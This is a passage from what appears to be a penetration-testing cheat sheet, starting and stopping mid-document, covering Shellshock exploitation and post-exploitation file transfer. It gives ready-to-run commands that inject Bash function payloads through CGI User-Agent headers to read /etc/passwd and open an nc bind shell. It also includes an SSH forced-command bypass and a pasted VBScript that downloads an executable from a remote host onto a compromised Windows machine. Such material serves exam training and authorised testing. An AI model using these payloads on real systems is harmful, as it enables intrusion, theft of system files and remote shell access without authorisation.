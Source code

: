     -   git clone https://github.com/nccgroup/shocker
 
    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`
 
    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
       
              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'
 
    -   cat file (view file contents)  
   
              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
 
    -   Shell Shock run bind shell  
   
             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
 
File Transfers
============================================================================================================
 
-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.
 
-   Simple Local Web Servers
 
    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80
 
    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server
 
    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"
 
    -   Run a basic PHP http server  
        php -S $ip:80
 
-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)
 
-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):
 
         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo   .type = 1 '      >> webdl.vbs
         timeout 1
         echo   .open      >> webdl.vbs
         timeout 1
         echo   .write xHttp.responseBody      >> webdl.vbs
